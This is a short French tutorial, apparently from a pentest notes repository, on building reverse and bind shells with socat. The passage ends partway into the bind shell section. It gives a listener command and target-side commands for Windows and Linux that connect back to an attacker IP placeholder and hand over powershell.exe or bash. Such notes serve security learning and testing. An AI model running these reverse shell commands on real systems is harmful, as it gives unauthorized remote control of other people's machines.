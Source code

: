 
## __Reverse shell__

Pour setup un reverse shell avec socat c'est légèrement plus compliqué qu'avec netcat.

#### 1- Listener -- Notre machine

Sur notre machine il faut effectuer la commande :

```shell
user@ip:~$ socat TCP-L:1345 -
```

Cette commande est équivalente à faire **`nc -vnlp 1234`**.

#### 2- Connection -- Machine cible

Sur la machine cible, on va effectuer la commande :

1) Sur une machine **windows**

```shell
PS C:\Users\user> socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

2) Sur une machine **linux**

```shell
user@raspberrypi: ~$ socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:"bash -li"
```


## __Bind shell__

#### 1- Listener -- Machine cible

